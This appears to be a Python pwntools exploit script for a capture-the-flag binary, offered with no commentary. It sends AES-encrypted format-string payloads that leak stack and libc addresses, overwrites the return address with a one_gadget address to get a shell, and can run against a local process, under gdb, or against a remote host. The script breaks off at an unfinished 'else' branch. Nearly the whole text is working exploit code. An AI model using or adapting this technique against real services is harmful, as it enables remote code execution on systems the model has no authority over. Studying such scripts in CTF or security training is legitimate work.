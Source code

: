 ```python
key = bytes([0x7b,0xf3,0x5c,0xd6,0x9c,0x47,0x5d,0x5e,0x6f,0x1d,0x7a,0x23,0x18,0x7b,0xf9,0x34])

def aes128_encrypt(data, key):
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(pad(data, AES.block_size))

def aes128_decrypt(enc, key):
    cipher = AES.new(key, AES.MODE_ECB)
    return unpad(cipher.decrypt(enc[AES.block_size:]), AES.block_size)


def pwn():

    sa(b'name', b'******')
    sa(b'3 times', aes128_encrypt(b'.%6$p.%15$p.\0', key))
    ru(b'.')
    stack_base = int(ru(b'.')[:-1].decode(), 16)
    success("stack_base: "+hex(stack_base))
    i_addr = stack_base-0x124
    success("i: "+hex(i_addr))
    return_addr = i_addr+0x34
    success("return_addr: "+hex(return_addr))
    libc_base = int(ru(b'.')[:-1].decode(), 16)-0x24083
    success("libc_base: "+hex(libc_base))

    sa(b'2 times', aes128_encrypt(f'%{i_addr&0xFFFF}c%6$hn\0'.encode(), key))
    sa(b'1 times', aes128_encrypt(f'%5c%45$hn\0'.encode(), key))

    one_gadget = libc_base + 0xe3b01

    print(f'[*] write {hex(one_gadget&0xFFFF)} to {hex(return_addr&0xFFFF)}')

    sa(b'4 times', aes128_encrypt(f'%{return_addr&0xFFFF}c%6$hn\0'.encode(), key))
    sa(b'3 times', aes128_encrypt(f'%{one_gadget&0xFFFF}c%45$hn\0'.encode(), key))

    print(f'[*] write {hex((one_gadget>>16)&0xFFFF)} to {hex((return_addr+2)&0xFFFF)}')

    sa(b'2 times', aes128_encrypt(f'%{(return_addr+2)&0xFFFF}c%6$hn\0'.encode(), key))
    sa(b'1 times', aes128_encrypt(f'%{(one_gadget>>16)&0xFFFF}c%45$hn\0'.encode(), key))

    ru(b'too!\n')
    io.interactive()


# ------------------ Infrastructure ------------------ #

def debug():
    g = gdb.attach(io, """
        # set debug-file-directory ~/gaio/libs/2.29-0ubuntu2_amd64/.debug/
        b *$rebase(0x1600)
        b *$rebase(0x15cb)
    """)
    # pause()

if __name__ == "__main__":
    if len(sys.argv) == 1:
        io = process(filename)
    elif sys.argv[1] == "d":
        io = process(filename)
        debug()
    elif sys.argv[1] == "r":
        io = remote(ip, port)
    else:
```